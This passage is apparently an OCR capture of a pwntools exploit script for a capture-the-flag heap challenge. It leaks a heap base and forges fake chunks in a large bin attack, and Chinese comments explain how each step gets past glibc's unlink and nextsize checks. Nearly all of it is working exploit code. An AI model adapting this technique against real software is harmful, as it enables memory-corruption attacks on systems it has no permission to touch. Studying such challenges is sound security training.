 ```PYTHON
    io.recvuntil('color?(0:red, 1:green):')
    io.sendline('2')
    io.recvuntil('value?(0-999):')
    io.sendline('1000')
    io.recvuntil('num?(0-16)')
    io.sendline('17')
    io.recvuntil('new description of the apple:')
    io.sendline(desc)
    pass
def show(idx):
    io.recvuntil('your choice:')
    io.sendline('4')
    io.recvuntil('which?(0-15):')
    io.sendline(str(idx))
    pass
add(0x60,  '0'*0x60 ) # 
add(0x60,  '1'*0x60 ) #
add(0x60,  '2'*0x60 ) #
add(0x60,  '3'*0x60 ) #
add(0x60,  '4'*0x60 ) #
add(0x60,  '5'*0x60 ) #
add(0x60,  '6'*0x60 ) #
add(0x3f0, '7'*0x3f0) # playground
add(0x30,  '8'*0x30 )
add(0x3e0, '9'*0x3d0) # sup
add(0x30,  'a'*0x30 )
add(0x3f0, 'b'*0x3e0) # victim
add(0x30,  'c'*0x30 )
dele(0x9)  ##释放第一个大块
dele(0xb)  ##释放第二个大块
dele(0x0)
gdb.attach(io)
add(0x400, '0'*0x400)  #申请一个较大的块，使得unsorted bin数组清空
# leak
show(0xb)  ##泄露得到堆地址
io.recvuntil('num: ')
print hex(c_uint32(int(io.recvline()[:-1])).value)
io.recvuntil('description:')
HEAP = u64(io.recvline()[:-1]+'\x00\x00')-0x7e0
log.info("heap base 0x%016x" % HEAP)
target_addr = HEAP+0xb0     # 1
chunk1_addr = HEAP+0x130    # 2
chunk2_addr = HEAP+0x1b0    # 3
victim_addr = HEAP+0xc30    # b
# large bin attack
edit(0xb, p64(chunk1_addr))             # victim  ##修改victim = victim->bk_nextsize，伪造堆块开始
edit(0x1, p64(0x0)+p64(chunk1_addr))    # target ##这一步是为了绕过unlink的fd与bk检查
chunk2  = p64(0x0)
chunk2 += p64(0x0)
chunk2 += p64(0x421)
chunk2 += p64(0x0)
chunk2 += p64(0x0)
chunk2 += p64(chunk1_addr)  ##这一步是为了绕过fd_nextsize与bk_nextsize检查
edit(0x3, chunk2) # chunk2
chunk1  = ''
chunk1 += p64(0x0)
chunk1 += p64(0x0)
chunk1 += p64(0x411)
chunk1 += p64(target_addr-0x18)
chunk1 += p64(target_addr-0x10)
chunk1 += p64(victim_addr)
chunk1 += p64(chunk2_addr)  ##伪造的堆块
edit(0x2, chunk1) # chunk1
```